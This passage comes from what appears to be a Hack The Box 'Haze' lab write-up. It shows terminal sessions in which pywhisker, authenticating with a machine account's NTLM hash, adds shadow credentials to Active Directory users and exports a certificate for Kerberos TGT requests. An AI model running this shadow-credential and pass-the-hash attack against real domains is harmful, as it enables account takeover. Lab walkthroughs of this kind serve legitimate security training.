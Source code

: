 ```
(venv_pywhisker)fcoomans@kali:~/htb/haze/pywhisker$ cd ..
```

As a test, `pywhisker` is used to request a certificate for `mark.adams`, but this fails.
```
(venv_pywhisker)fcoomans@kali:~/htb/haze$ pywhisker -a add -t mark.adams --dc-ip 10.10.11.61 --dc-host dc01.haze.htb -u Haze-IT-Backup$ -H 4de830d1d58c14e241aff55f82ecdba1 -e PFX -f mark -P Password123!
[*] Searching for the target account
[*] Target user found: CN=Mark Adams,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d7944b0c-56b3-27f7-471e-ea3d746d3c3f
[*] Updating the msDS-KeyCredentialLink attribute of mark.adams
[!] Could not modify object, the server reports insufficient rights: 00002098: SecErr: DSID-031514B3, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

I look at the AD groups and see that `edward.martin` is also a member of the `Remote Management Users` group and can therefore `evil-winrm` to the server.  
`pywhisker` is used to request a certificate for `edward.martin` instead and this time it works!
```
(venv_pywhisker)fcoomans@kali:~/htb/haze$ pywhisker -a add -t edward.martin --dc-ip 10.10.11.61 --dc-host dc01.haze.htb -u Haze-IT-Backup$ -H 4de830d1d58c14e241aff55f82ecdba1 -e PFX -f edward -P Password123!
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 4d30f579-17a1-4fbd-2ce2-d2f4522f31a1
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: edward.pfx
[+] PFX exportiert nach: edward.pfx
[i] Passwort für PFX: Password123!
[+] Saved PFX (#PKCS12) certificate & key at path: edward.pfx
[*] Must be used with password: Password123!
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

(venv_pywhisker)fcoomans@kali:~/htb/haze$ deactivate
```

`pywhisper` tells me to use `PKINITtools` to get the TGT.
Before I do that, I update `/etc/krb5.conf` with the `HAZE.HTB` domain and server info.  This is needed when requesting a TGT from the Kerberos server.
```
fcoomans@kali:~/htb/haze$ cat /etc/krb5.conf
[libdefaults]
        default_realm = HAZE.HTB

<SNIP>

[realms]
<SNIP>
        HAZE.HTB = {
                kdc = DC01.haze.htb
                admin_server = DC01.haze.htb
                default_domain = haze.htb
        }

[domain_realm]
<SNIP>
        .haze.htb = HAZE.HTB
```
